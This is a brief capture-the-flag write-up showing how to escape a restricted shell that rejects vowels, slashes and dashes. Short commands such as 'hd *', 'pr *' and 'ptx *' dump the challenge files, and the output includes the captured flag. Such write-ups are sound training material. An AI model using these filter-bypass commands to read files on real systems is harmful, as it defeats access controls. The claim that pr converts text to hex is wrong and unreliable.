 ## Overview
- Get the flag, with only even characters!
- Restrictions: 
	- ' ? ' 
	- '/' - Makes it impossible to use wildcards for names
	- a,c,e,... i and o cannot be used either. This makes it REALLY hard
	- Dashes ('-') makes flags impossible to use
- Forced to use SMALL commands with no vowels
- A good list of these can be found at https://gtfobins.github.io/.

## Solutions
### hd
- hexdump!
- hd *
	- Prints a hexdump of the flag
- Output is large. Since all flags begin with 'SC3', we can grep for that: 
	- ``echo "hd *" | ./run | grep 'SC3' -A 2``
00000210  75 6e 28 29 0a 53 43 33  7b 65 76 65 6e 5f 49 73  |un().SC3{even_Is|
00000220  5f 6e 6f 74 5f 6f 64 64  21 67 6f 74 74 61 5f 6c  |_not_odd!gotta_l|
00000230  6f 76 65 5f 74 68 65 5f  2a 7d 0a 7f 45 4c 46 01  |ove_the_*}..ELF.|

### pr
- This command is used for converting text files into hex data or something like that
- pr *
	- Will print the hex data of all files in the folder!
	- ``echo "pr *" | ./run | grep 'SC3' -a``

### ptx
- produce a permuted index of file contents
- ptx *
	- Print out all file contents
	- ``echo "ptx *" | ./run | grep 'SC3' -a``
	- SC3{even_   Is_not_odd!gotta_love_the_*}

